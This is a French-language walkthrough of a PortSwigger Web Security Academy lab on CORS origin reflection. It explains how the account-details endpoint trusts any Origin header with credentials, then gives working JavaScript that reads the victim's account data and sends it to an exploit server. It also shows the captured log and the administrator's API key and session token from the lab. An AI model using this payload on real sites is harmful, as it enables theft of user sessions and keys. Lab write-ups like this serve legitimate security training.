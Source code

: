 # Lab

https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

## Solution

Il y a une endpoint `/accoundDetails` qui renvoie les informations de l'utilisateur connecté si le cookie `session` est présent.

Dans la réponse de cette requête il y a le header `Access-Control-Allow-Credentials: true` qui indique que le serveur accepte les requêtes avec les credentials (cookies).

On voit que si on injecte le header `Origin: xxxxxxxxxxx` dans la requête, le serveur renvoie le header `Access-Control-Allow-Origin: xxxxxxxxxxx` qui indique que le serveur accepte les requêtes avec l'origin injecté.

On a donc juste a crafter une requête avec l'exploit server qui envoie les credentials et l'origin injecté.

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a680045031fb35c80e95df200090019.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//exploit-0a06009103a6b3cc80895c0501f70029.exploit-server.net/logs?x='+this.responseText;
};
```

Dans les logs de l'exploit server on voit :

`10.0.3.179      2023-10-08 19:43:49 +0000 "GET /logs?x={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22yljaauZOxSqft4blwkyj2ulWdZTCRwfL%22,%20%20%22sessions%22:%20[%20%20%20%20%22EpYP7l7YShZuAilpnWyApUpf3jN13a6U%22%20%20]} HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36"`

Une fois la chaine URL décodée, on vois :

```js
{
  "username": "administrator",
  "email": "",
  "apikey": "yljaauZOxSqft4blwkyj2ulWdZTCRwfL",
  "sessions": [
    "EpYP7l7YShZuAilpnWyApUpf3jN13a6U"
  ]
}
```

On a plus qu'à submit le challenge avec l'apikey de l'admin.